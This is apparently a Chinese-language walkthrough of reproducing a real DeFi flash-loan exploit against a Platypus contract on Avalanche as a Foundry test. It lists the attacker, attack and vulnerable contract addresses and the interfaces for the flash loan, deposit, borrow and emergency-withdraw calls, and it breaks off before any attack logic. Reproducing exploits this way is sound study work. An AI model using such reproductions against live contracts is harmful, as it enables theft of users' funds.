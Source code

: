 - 这一步就是攻击的基本信息

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

// @KeyInfo - 
// Attacker : https://avascan.info/blockchain/c/address/0xeff003d64046a6f521ba31f39405cb720e953958
// Attack Contract : https://avascan.info/blockchain/c/address/0x67afdd6489d40a01dae65f709367e1b1d18a5322
// Vulnerable Contract : https://avascan.info/blockchain/c/address/0xbcd6796177ab8071f6a9ba2c3e2e0301ee91bef5
// Attack Tx : https://avascan.info/blockchain/c/tx/0x1266a937c2ccd970e5d7929021eed3ec593a95c68a99b4920c2efa226679b430

// @Info
// Vulnerable Contract Code : https://avascan.info/blockchain/c/address/0xbcd6796177ab8071f6a9ba2c3e2e0301ee91bef5/contract

// @Analysis
// Twitter Guy :https://twitter.com/peckshield/status/1626367531480125440
// https://explorer.phalcon.xyz/tx/avax/0x1266a937c2ccd970e5d7929021eed3ec593a95c68a99b4920c2efa226679b430
contract ContractTest is Test{

}
```

- 看着代码很多，其实都是要调用的接口信息，具体从phalcon取，调了什么取什么。
  https://explorer.phalcon.xyz/tx/avax/0x1266a937c2ccd970e5d7929021eed3ec593a95c68a99b4920c2efa226679b430?line=814

```solidity
interface AaveV3Pool {
    function flashLoanSimple(address receiverAddress, address asset, uint amount, bytes memory params, uint16 referralCode) external;
}
interface PlatypusPool {
    function deposit(address token, uint amount, address to, uint deadline) external returns (uint);
    function swap(address fromToken, address toToken, uint fromAmount, uint minnumAmount, address to, uint deadline) external returns (uint, uint);
    function withdraw(address token, uint liquidity, uint minimumAmount, address to, uint deadline) external returns (uint);
    function getTokenAddresses() external view returns (address[] memory);
    function assetOf(address token) external view returns (address);//key-value: USDC->LP_USDC
}
interface IUSP is IERC20{
    function approve(address spender, uint256 amount) external returns (bool);
}
interface ILP_USDC is IERC20 {
    function approve(address spender, uint256 amount) external returns (bool);
}
interface MasterPlatypusV4{
    function deposit(uint _pid, uint _amount) external returns(uint256, uint256[] memory);
    function emergencyWithdraw(uint pid) external;
}
interface PlatypusTreasure{
    function borrow(address token, uint borrowAmount) external;
    function isSolvent(
        address _user,
        address _token,
```